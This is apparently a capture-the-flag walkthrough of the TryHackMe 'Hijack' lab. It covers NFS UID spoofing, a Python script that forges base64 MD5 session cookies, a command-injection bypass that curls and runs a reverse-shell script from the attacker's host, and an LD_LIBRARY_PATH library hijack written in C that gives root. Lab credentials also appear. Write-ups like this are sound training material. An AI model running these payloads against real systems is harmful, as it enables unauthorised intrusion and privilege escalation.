 <h3> Hijack TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f4519c5a-bf39-44bd-989a-195f14153a0c)

Been long since I did a machine from TryHackMe but recently a friend of mine showed me this box so I decided to do it today

First thing first as always is enumeration

I started with an nmap scan and on doing so got me this available tcp ports open
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f87e8f09-67ae-40d2-b363-df0a3f251814)

Ok cool we have ftp, ssh, http and nfs open

Checking the mounts on nfs shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cbe16a7-bd94-4af9-b594-cc3e375308df)

So anyone can mount the share on `/mnt/share`

I mounted it and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c244adfe-248f-4ee3-9d4c-d0df276b74c1)

```
- mkdir mnt
- sudo mount -t nfs 10.10.38.234:/mnt/share mnt
```

Well we can't access the mounted share cause our user & group id isn't `1003` but `1001`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096ae2e0-424f-4142-9298-836923711705)

To solve that I just changed the value from my `/etc/passwd` file (but u can actually create a dummy account and make the uid/gid 1003 then delete when done ...... as for me i'm too lazy to do that)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32dc459d-a804-457e-b8c2-9f8af0fe0268)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f30871f0-fe8a-4822-bc7d-5ab6a1831519)

```
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```

Cool we have the ftp credentials now we can unmount the share and continue enumeration
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b28b3bc2-13e9-42e2-9192-4f32c31c5a22)

Let us check ftp shall we?
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9598e72-db0f-4502-b673-de6a8cc40f6b)

That seems to be like a user directory and also two non default files are there (which are hidden) 

After transferring it to my host I checked it's content and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26fd23bf-0b0c-4dce-a5d3-ab513dfbadf7)

```
➜  Hijack cat .from_admin.txt 
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
➜  Hijack
```

From this note we can tell there's a user called `admin` and he made a password list containing safe passwords. Also he says something to the user `rick` about rate limiting login attempts inorder to prevent future brute force attack

Cool so let's move to the webapp

One thing we can try here is to attempt brute force on ssh for user `admin / rick / root` with the password list but that won't work :P

Time to move to the webapp 

![giphy](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09557d16-86b1-4eaf-834e-ec228f5613f5)

Going over to port 80 which is the webserver shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58fae9ca-5379-40a8-a7ee-d715a04062bd)

So we can either login or create account

To save us the trouble of stress I just created an account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/acd32ee8-8000-4d1f-83fc-508b12e7e482)

Now we can login with the credential `mud:password`

One thing you'd immediately notice is the `Administration` panel 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fba37f5b-b7aa-4b45-a391-1267433727ea)

If you click that you'd see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/181bbdb4-03f8-4d64-abce-7be6898894b3)

So we need to be logged in as admin before we can access that

Often when webapp checks this kind of permission it either gets it from a database or it can be the cookie 

Since we have no sort of database access here I checked the cookie and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bd98d584-a07d-43ab-a9b8-9b5f4ef25d78)

Normally when I see `PHPSESSID` as the cookie name I don't really check it because it's usually some random value but that isn't the case here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee5af735-fbb5-441b-8d6e-17610f0caeea)

From cyberchef we can see that it decoded from base64 and has `admin` + `:` + some_hash_value

Using [crackstation](https://crackstation.net/) the hash decoded to `password` and I got the hash type to be `MD5`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6f1f459d-5286-4ca1-ba89-f091a239d39e)

At this point we can either do two things:
- Brute force the admin account
- Do some cookie forgery till we get the right admin cookie session

The first case won't be of benefit to us as there's going to be rate limit according to the note from admin 

But the other case will work cause the rate limit is just placed on the login page but not the amount of time you access the web page which makes sense

Now inorder to do that we need to convert `admin:{md5_of_password}` to base64 then make a `GET` request to `/` and if we get a content length which differs from the preceding one then we have our right session

I wrote a python script to do that:

```python
import requests
import hashlib
from base64 import b64encode as encode

url = "http://10.10.182.53/index.php"

with open("passwords.txt", 'r') as fp:
    for password in fp:
        passwd = password.strip('\n').encode()
        hash = hashlib.md5(passwd).hexdigest()
        value = f"admin:{hash}"
        payload = encode(value.encode())
        cookie = {"PHPSESSID": payload.decode()}
        req = requests.get(url, cookies=cookie)
        
        if len(req.text) != 487:
            print(f"Potential Cookie: {payload.decode()}")
            break
```

After running it I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9042b0c-a755-44d1-be8d-37b3539c7d80)

```
➜  Hijack python3 check.py
Potential Cookie: YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
➜  Hijack
```

Now we can change the cookie to that and should be logged in as admin
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/574d00ce-0b6a-4eb4-a0d9-dba14c716239)

Cool let us access the administrator panel
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9420e836-d8a0-46fc-b06f-feb34c254174)

That claims to do a service check on the provided service name

I put `apache2` since that's currently running and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f6434c93-9c0e-4937-a940-31016f972937)

This tells us that it is likely running a bash command with our argument provided

This means we can try inject our own command leading to command injection

I first tried the generic payload `;` and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/607e756f-7866-42d4-b3e6-68dfaaabd0bd)

```
Command injection detected, please provide a service.
```

Fancy! This can be bypassed easily using `$(command)`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/295f54d7-ea98-4b9e-85ad-ddca20bd2818)

So I just got a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6a307f94-9fa3-45d5-a3f0-9c40a7c983b0)

```
- $(curl 10.6.80.113/rev.sh -o /tmp/a)
- $(bash /tmp/a)
```

In the current directory of the web app shows a configuration file which holds mysql credential
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a556c0a-d549-4193-aeb7-0f3807b9e83a)

Using the password worked for user `rick` and we can now grab the user flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46ef276a-6fd6-451d-b8b6-adbc49675955)

```
rick:N3v3rG0nn4G1v3Y0uUp
```

Time for privilege escalation 

Checking sudo permission shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/645bf96a-4c2b-41e5-b59b-62ce10508753)

So we can run `/usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2` as `root` 

But one interesting configuration is that we can specify the environment LD Library Path 

We can get the list of library going to be called when the run the `apache2` binary using `ldd` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/40a1bb2e-4619-4c71-ab35-9c455d6b9575)

Simple google search on how to privesc should lead you at least [here](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/):

In this case I'll hijack the library which is `libcrypt.so.1` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d5dc9546-368c-4fe7-a219-1a7d4ad7b10a)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d3aafeb5-75f2-4632-9c14-dbd1a84c3d98)

Here's the C code:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

To compile run this:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pwn.c
```

Now we can spawn a root shell 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43fbbb4c-f2a9-4ed5-96cb-8542e63467cb)

```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

That's all xD
